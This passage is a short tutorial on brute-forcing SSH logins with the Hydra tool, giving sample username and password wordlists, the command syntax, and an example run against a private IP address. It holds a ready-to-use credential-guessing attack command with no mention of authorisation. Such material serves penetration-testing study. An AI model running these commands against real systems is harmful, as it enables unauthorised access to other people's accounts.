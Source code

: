 1. **Prepare your wordlists.** Create or download text files containing potential usernames and passwords. For example:
    1. username.txt:
        ```
        text
        root
        admin
        user
        test
        ```
    2. password.txt:
        ```text
        password
        123456
        changeme
        qwerty
        ```
2. **Construct the Hydra command.** The basic command syntax for SSH brute-forcing with Hydra is:

```hydra -L <userlist.txt> -P <passlist.txt> <target_ip> ssh```

3. Run the command. Execute the command in your terminal, replacing the placeholders with your actual file names and the target IP address.Example: ```hydra -L username.txt -P password.txt 192.168.1.11 ssh```